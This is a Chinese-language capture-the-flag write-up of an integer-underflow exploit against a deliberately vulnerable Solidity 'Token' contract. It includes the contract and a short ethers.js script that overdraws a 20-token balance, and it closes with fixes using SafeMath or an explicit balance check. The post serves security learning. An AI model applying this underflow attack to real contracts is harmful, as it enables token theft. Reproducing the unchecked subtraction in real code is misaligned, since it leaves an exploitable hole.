

攻击这个 Token 合约，给自己拿好多钱。

<!--more-->

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;
	
	// 初始的前全在创建者手里
    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

	// 转账函数
    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

初始情况，我有20个Token。

那就是，通过自己给自己转账，在我的前还没被扣掉之前，给自己转两次账？

我先试试。

```js
async function main() {
  const { provider, wallet, contract } = getConfig(CONTRACT_ADDRESS);

  let time = 100;
  while (time--) {
    contract.transfer(MY_WALLET, 1);
  }

  const ret = await contract.balanceOf(MY_WALLET);
  console.log(ret);
}
```

很显然，肯定攻击不成功，报错了 `could not coalesce error`，简而言之就是请求太频繁状态不匹配了。

而且也太天真了，因为一定是一个事务执行完，再执行下一个事务的。


然后！想到问题可能是类型转换的地方。

```
require(balances[msg.sender] - _value >= 0);
```

如果 value = 21，减一下就下溢到2^256 - 1了。

但是他连续 -21 再 +21，还是不变。


能不能在 -21 之后，执行另一个 -100000的命令？不可能的。

因为一定是一个事务执行完，再执行下一个事务的。


所以得把账转给别人！！

```js
const CONTRACT_ADDRESS = "0x967e954E30B4CD6E3618EcF88F8c02AA2431C363"; // 替换为你的合约地址
const MY_WALLET = "0xE484608fA7639996d0F359f76f34DF9fe15f7F7B";
async function main() {
  const { provider, wallet, contract } = getConfig(CONTRACT_ADDRESS);

  let tx = await contract.transfer(CONTRACT_ADDRESS, 21);
  await tx.wait();

  const ret = await contract.balanceOf(MY_WALLET);
  console.log(ret);
}

main();
```

成功了！



# 总结

**整数下溢漏洞**

在 Solidity 中，未正确处理的整数操作（例如减法）可能会导致 **整数下溢（underflow）**。具体表现为，当一个无符号整数减去一个大于自身的值时，它会绕回到 uint256 的最大值。


**漏洞触发条件**

1. 合约未使用 SafeMath 或其他溢出检查机制。

2. 函数逻辑中对减法操作的结果没有进行合理检查。

3. 攻击者通过构造一个超出余额的转账请求（例如转账 21 块，但余额只有 20 块），触发下溢漏洞。


**智能合约事务的执行顺序**

1. **事务的执行是顺序的**：每个函数调用的状态更新（例如 balances[msg.sender] -= _value）会立即生效，不会被跳过或延迟。

2. **单一事务的原子性**：在同一个事务中，所有的状态变更要么全部完成，要么全部回滚。

3. **外部调用的顺序**：如果函数中没有外部调用（例如 call 或 delegatecall），合约状态的更新顺序是严格的，攻击者无法通过并行调用干扰其执行。


**如何修复**

1. 使用 SafeMath 或 Solidity >= 0.8.0 的内置溢出保护：

    ```
    balances[msg.sender] = balances[msg.sender].sub(_value); // SafeMath 方法
    ```

2. 明确检查操作条件：

    ```
    require(balances[msg.sender] >= _value, "Insufficient balance");
    ```

3. 避免直接使用不安全的算术操作。


